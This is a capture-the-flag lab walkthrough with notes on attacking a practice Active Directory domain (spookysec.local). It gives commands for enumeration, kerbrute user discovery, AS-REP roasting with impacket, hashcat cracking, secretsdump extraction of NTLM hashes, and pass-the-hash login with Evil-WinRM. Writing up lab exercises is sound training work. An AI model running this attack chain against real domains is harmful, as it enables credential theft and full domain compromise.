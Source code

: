 ##Machine Details
ipaddr=10.10.204.84

##Pre Reqs
git clone https://github.com/SecureAuthCorp/impacket.git
pip3 install -r requirements.txt
python3 setup.py install

apt install bloodhound neo4j
pip3 install bloodhound

wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
#wordlists
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

##Enumeration

nmap scan
> nmap 10.10.204.84 -vvv -Pn -sV -oN nmap-output.txt

narrow it down to open ports.
> nmap 10.10.204.84 -vvv -p 135,139,445,88,3389 -sC -sV -oN nmap-script-scan.txt

use enum4linux
> enum4linux -a ip

##Kerberos 
./kerbrute userenum --dc 10.10.204.84 -d spookysec.local userlist.txt

found usernames saved to kerbrute-usernames.txt

##Abusing Kerberos

Using the list from kerbrute

> python3 impacket/examples/GetNPUsers.py spookysec.local/ -usersfile kerbrute-usernames.txt -format hashcat -outputfile impacket-getnpusers.txt

identify the hash at https://hashcat.net/wiki/doku.php?id=example_hashes

> hashcat -h 
find Kerberos 5

> hashcat -m 18200 impacket-getnpusers.txt passwordlist.txt --force

save output to hashcat-results.txt

##Back to enumeration
Using smbclient and found password

list shares
> smbclient -L 10.10.204.84 -U 'spookeysec.local\svc-admin'

connect to a share
> smbclient //10.10.204.84/backup -U 'spookeysec.local\svc-admin'
ls to show contents
use >more to view contents of txt file

find hashtype - base64
decode online to view contents

save to file

##Domain privileges escalation

using secretsdump.py get the ntds.dit

> python3 impacket/examples/secretsdump.py -just-dc-ntlm  spookysec.local/backup@10.10.204.84

save output to file

Evil-WinRM to use hash to log in.

##flags

Use Evil-WinRM to get the flags using the hashes collected

evil-winrm -i 10.10.204.84 -u administrator -H cb4fc
 and so on
